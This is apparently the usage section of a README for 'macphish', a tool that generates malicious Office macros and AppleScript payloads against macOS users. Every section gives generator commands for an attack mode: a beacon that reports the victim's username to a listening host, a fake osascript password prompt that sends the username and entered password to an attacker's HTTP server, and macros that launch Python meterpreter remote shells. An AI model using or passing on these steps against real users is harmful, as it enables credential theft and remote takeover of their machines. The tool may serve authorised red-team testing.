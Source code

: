# Usage
 
## beacon (Office 2011/Office 2016)
This mode generates a simple 'beacon' payload that will signal a HTTP server. This module is useful for stats/evidence when no access to user files is required. The HTTP request will include the user name that executed the payload. We are using curl here but it is very easy to change it to nslookup, ping, dig, etc.

To generate a beacon payload, simply select 'beacon' as the attack mode and set the listening hostname:

    $./macphish.py -a beacon -lh <host>

## creds (Office 2011/Office 2016)
This module generates payloads for credential phishing. This payload generates a prompt that attempts to phish user credentials abusing osascript functionality. The username is obtained from the system information which is sent along with the entered password to a HTTP server.

To generate the macro:

    $./macphish.py -a creds -m -lh <host> 

To generate the Applescript payload to be executed from a shell:

    $./macphish.py -a creds -lh <host> 

## meterpreter (Office 2011/Office 2016 with limitations)
This module generates python meterpreter payloads. In Office 2016, it will run inside the App Sandbox. 

To generate a macro that will execute a Python meterpreter payload (Note that only Python payloads will work):

    $./macphish.py -a meterpreter -lh <host> -lp <port> -p <payload type> -m

## meterpreter-grant (Office 2016)

This payload executes a Python meterpreter.

To generate a macro that will execute a Python meterpreter payload (Note that only Python payloads will work):

    $./macphish.py -a meterpreter-grant -lh <host> -lp <port> -p <payload type> -m
